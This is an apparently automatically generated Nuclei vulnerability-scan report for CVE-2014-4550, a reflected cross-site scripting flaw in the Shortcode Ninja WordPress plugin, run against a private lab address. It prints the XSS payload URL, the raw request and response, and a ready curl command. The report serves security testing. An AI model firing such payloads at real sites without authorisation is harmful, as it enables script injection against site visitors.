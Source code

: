 ### Shortcode Ninja <= 1.4 - Unauthenticated Reflected Cross-Site Scripting (CVE-2014-4550) found on http://192.168.198.179:8080/
---
**Details**: **CVE-2014-4550**  matched at http://192.168.198.179:8080/

**Protocol**: HTTP

**Full URL**: http://192.168.198.179:8080/wp-content/plugins/shortcode-ninja/preview-shortcode-external.php?shortcode=shortcode%27%3E%3Cscript%3Ealert%28document.domain%29%3C/script%3e

**Timestamp**: Wed Jun 8 20:22:07 +0100 BST 2022

**Template Information**

| Key | Value |
|---|---|
| Name | Shortcode Ninja <= 1.4 - Unauthenticated Reflected Cross-Site Scripting |
| Authors | daffainfo |
| Tags | cve, cve2014, wordpress, wp-plugin, xss |
| Severity | medium |
| Description | A cross-site scripting vulnerability in preview-shortcode-external.php in the Shortcode Ninja plugin 1.4 and earlier for WordPress allows remote attackers to inject arbitrary web script or HTML via the shortcode parameter. |
| CVSS-Metrics | [CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N) |
| CWE-ID | [CWE-79](https://cwe.mitre.org/data/definitions/79.html) |
| CVE-ID | [CVE-2014-4550](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2014-4550) |
| CVSS-Score | 6.10 |

**Request**
```http
GET /wp-content/plugins/shortcode-ninja/preview-shortcode-external.php?shortcode=shortcode%27%3E%3Cscript%3Ealert%28document.domain%29%3C/script%3e HTTP/1.1
Host: 192.168.198.179:8080
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_10_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2227.1 Safari/537.36
Connection: close
Accept: */*
Accept-Language: en
Accept-Encoding: gzip


```

**Response**
```http
HTTP/1.0 200 OK
Connection: close
Content-Length: 268
Content-Type: text/html

<HTML><HEAD><TITLE>File Not Found</TITLE></HEAD><BODY><H1>Cannot find this file.</H1>The requested file: <B>/wp-content/plugins/shortcode-ninja/preview-shortcode-external.php?shortcode=shortcode'><script>alert(document.domain)</script></B> was not found.</BODY></HTML>
```

References: 
- https://wpscan.com/vulnerability/c7c24c7d-5341-43a6-abea-4a50fce9aab0
- https://nvd.nist.gov/vuln/detail/cve-2014-4550
- http://codevigilant.com/disclosure/wp-plugin-shortcode-ninja-a3-cross-site-scripting-xss

**CURL Command**
```
curl -X 'GET' -d '' -H 'Accept: */*' -H 'Accept-Language: en' -H 'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_10_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2227.1 Safari/537.36' 'http://192.168.198.179:8080/wp-content/plugins/shortcode-ninja/preview-shortcode-external.php?shortcode=shortcode%27%3E%3Cscript%3Ealert%28document.domain%29%3C/script%3e'
```
---
Generated by [Nuclei 2.7.1](https://github.com/projectdiscovery/nuclei)